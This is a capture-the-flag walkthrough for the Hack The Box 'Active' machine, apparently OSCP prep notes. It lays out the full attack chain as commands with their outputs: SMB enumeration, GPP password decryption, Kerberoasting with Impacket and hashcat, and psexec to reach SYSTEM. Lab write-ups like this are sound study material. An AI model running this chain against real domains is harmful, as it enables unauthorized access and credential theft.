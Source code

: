 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.100
```

### 🔍 Service Version and Script Scan
```bash
nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49158,49169,49170,49179 -oA nmap/scripts 10.10.10.100
```

### 🔍 UDP Scan (for completeness)
```bash
nmap -sU -p- --min-rate 5000 -oA nmap/alludp 10.10.10.100
```

Key open ports included [Kerberos](KERBEROS), [SMB](SMB.md), [LDAP](LDAP.md), and [HTTP](HTTP).

---

## 📂 SMB Enumeration

### 🔎 Share Listing with smbmap
```bash
smbmap -H 10.10.10.100
```

### 🔎 Confirm access with enum4linux
```bash
enum4linux -a 10.10.10.100
```

---

## 📁 Replication Share - GPP Password

### 🗂️ Access the Replication share
```bash
smbclient //10.10.10.100/Replication -U ""%""
```

### 🧾 Locate GPP password in `Groups.xml`
```xml
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

### 🔐 Decrypt GPP password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Output: GPPstillStandingStrong2k18
```

---

## 👤 User Shell

### 🗂️ Enumerate users with access
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

### 📥 Get `user.txt`
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
smb: \SVC_TGS\desktop\> get user.txt
```

---

## 🔥 Kerberoasting

### 🎟️ Dump SPNs with Impacket
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### 🔓 Crack Ticket with Hashcat
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
# Output: Ticketmaster1968
```

---

## 🛠️ Administrator Access

### 🔓 Use cracked password to access shares
```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```

### 📥 Get `root.txt`
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
smb: \users\administrator\desktop\> get root.txt
```

---

## 🖥️ Shell as SYSTEM (Optional)

### 📦 Use psexec.py from Impacket
```bash
psexec.py active.htb/administrator@10.10.10.100
# Enter password: Ticketmaster1968
```

```cmd
whoami
# Output: nt authority\system
```